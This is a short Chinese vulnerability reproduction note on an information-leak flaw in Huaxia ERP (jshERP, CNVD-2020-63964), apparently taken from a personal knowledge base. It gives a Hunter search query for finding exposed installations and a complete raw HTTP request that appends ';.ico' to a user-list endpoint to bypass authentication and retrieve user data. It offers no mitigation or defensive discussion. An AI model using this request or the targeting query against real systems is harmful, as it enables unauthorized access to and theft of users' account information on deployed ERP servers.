 # 华夏ERP敏感信息泄漏漏洞（CNVD-2020-63964）

# 一、漏洞简介
华夏ERP基于SpringBoot框架、SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务功能。 华夏ERP系统存在敏感信息漏洞，攻击者可利用该漏洞获取敏感信息。

# 二、影响版本
+ 华夏ERP

# 三、资产测绘
+ hunter`web.body="jshERP-boot"`
+ 登录页面

![1693580405514-b7fa6757-7b89-4293-9e70-534cdf8001b4.png](./img/okq7OrqZU_vpgIqS/1693580405514-b7fa6757-7b89-4293-9e70-534cdf8001b4-288811.png)

# 四、漏洞复现
```java
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1693579975; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1693580257
Upgrade-Insecure-Requests: 1
```

![1693580565498-ff5668d8-7ece-45cf-bcec-abd1d6a81636.png](./img/okq7OrqZU_vpgIqS/1693580565498-ff5668d8-7ece-45cf-bcec-abd1d6a81636-684436.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wtdceob1qqhc24yg>